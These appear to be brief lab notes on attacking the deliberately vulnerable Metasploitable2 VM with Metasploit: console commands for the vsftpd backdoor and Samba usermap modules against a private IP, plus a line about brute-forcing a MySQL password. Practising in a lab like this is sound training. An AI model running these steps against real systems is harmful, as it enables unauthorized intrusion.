 # Metasploit -> Metasploitable2
msfconsole

FTP (21)
search vsftp
use 0
info
set RHOST 10.0.0.5
expoit

SAMBA (139)
user_map (2003)
use 8
show options
set RHOST 10.0.0.5
exploit

MYSQL  3306 BRUTE FORCE the PASSWORD
